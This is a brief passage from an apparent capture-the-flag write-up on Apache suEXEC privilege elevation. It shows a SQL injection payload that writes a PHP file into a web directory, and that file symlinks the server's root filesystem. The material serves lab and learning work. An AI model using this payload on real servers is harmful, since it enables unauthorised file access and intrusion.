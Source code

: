 # Bonus - apache suEXEC 2

[Apache suEXEC privilege elevation](https://www.exploit-db.com/exploits/27397)

We use a similar approach to Writeup 5, but with a different injection type, creating a symlink to the root directory when executed (though it does not grant us root privileges).

``` sql
SELECT "<?php system('ln -sf / tree'); symlink('/', 'tree');?>" INTO OUTFILE '/var/www/forum/templates_c/exec_2.php'
```
